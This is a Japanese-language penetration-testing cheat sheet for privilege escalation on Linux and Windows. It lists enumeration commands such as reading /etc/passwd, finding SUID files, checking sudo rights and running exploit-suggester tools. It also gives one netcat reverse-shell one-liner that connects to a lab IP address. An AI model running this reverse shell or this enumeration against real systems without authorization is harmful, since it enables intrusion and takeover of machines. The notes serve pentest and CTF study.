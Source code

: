 # Linux 権限昇格

### 基本チェック
`whoami`  
`id`  
`hostname`
`cat /etc/issue`  
`cat /etc/*-release`  
`cat /etc/passwd`  

`ps -aux`  
`ip -a`  
`netstat -ano`  
`/sbin/route`  
`ss -anp`  

`ls -lah /etc/cron*`  
`cat /etc/crontab`
`grep "CRON" /var/log/cron.log`

`dpkg -l`  
`find / -writable -type d 2>/dev/null`

`cat /etc/fstab`  
`mount`  

`/bin/lsblk`  
`lsmod`  
`/sbin/modinfo <module>`  

`find / -perm -u=s -type f 2>/dev/null`  


### 自動ツール
## unix-privesc-check  
`/bin/bash ./unix-privesc-check standard > output.txt`  
`/bin/bash ./unix-privesc-check detailed > output.txt`
http://pentestmonkey.net/tools/audit/unix-privesc-check


### 定期実行プロセスの調査


### sudo設定確認

許可されているコマンドの一覧を表示  
`sudo -l`

###  権限昇格用コマンドまとめ

reverse shell  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f

基本ここで検索すればOK  
https://gtfobins.github.io/

# Windows 権限昇格

### 基本チェック
`whoami`  
`net user`  
`net user <ユーザ名>`  
`hostname`

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  

`tasklist /SVC`  
`ipconfig /all`  
`route print`  
`netstat -ano`

`netsh advfirewall show currentprofile`  
`netsh advfirewall firewall show rule name=all`  
`schtasks /query /fo LIST /v`

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py --database 2021-03-08-mssb.xls --systeminfo systeminfo.txt`
xlrdがバージョン新しいとエラーはく可能性あり
`pip install xlrd==1.2.0`

#
